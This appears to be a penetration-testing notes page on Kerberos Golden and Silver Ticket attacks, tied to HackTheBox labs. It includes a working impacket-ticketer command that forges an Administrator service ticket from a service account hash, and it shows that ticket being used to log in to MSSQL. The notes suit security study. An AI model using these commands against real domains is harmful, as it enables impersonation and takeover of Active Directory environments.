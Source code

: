 # Golden/Silver Ticket Attack

## Overview

The ticket attack abuses the service account's password hash.

## Golden Ticket Attack

The Golden Ticket Attack abuses the `krbtgt` account's password hash to issue the Kerberos ticket-granting tickets as the KDC to access the resources.

After the adversary gets the account `krbtgt`'s password hash, it can

* create a valid Kerberos TGT for any user in the domain and
* _manipulate that user’s_ [_PAC_](../../auth/kerberos.md#privilege-attribute-certificate-pac) _to gain additional privileges._

### Tools

{% tabs %}
{% tab title="Impacket" %}

{% endtab %}

{% tab title="Rubues" %}

{% endtab %}

{% tab title="Mimikatz" %}

{% endtab %}
{% endtabs %}

### Labs

* [Forest](../../../hackthebox/windows/forest.md#golden-ticket-attack)

## Silver Ticket Attack

Attackers can mint service-granting tickets without communicating to the KDC, if they get the password hash for the service account.

{% embed url="https://www.netwrix.com/silver_ticket_attack_forged_service_tickets.html" %}

### Tools

{% tabs %}
{% tab title="Impacket" %}
With a service account's password hash, we can mint a service-granting ticket without interacting with the DC.

{% code overflow="wrap" %}
```
$ impacket-ticketer -nthash <password-hash> -domain-sid <domain-sid> -domain sequel.htb -dc-ip escape -spn MSSQL/DC.SEQUEL.HTB Administrator
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sequel.htb/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```
{% endcode %}

We can use the saved ccache file to authenticate to the service later.

```bash
$ export KRB5CCNAME=Administrator.ccache
$ impacket-mssqlclient -k dc.sequel.htb
...
SQL> select suser_name()
                       
--------------------   
sequel\Administrator 
```
{% endtab %}

{% tab title="Rubues" %}

{% endtab %}

{% tab title="Mimikatz" %}

{% endtab %}
{% endtabs %}

### Labs

* [Escape](../../../hackthebox/windows/escape.md#silver-ticket-attack)
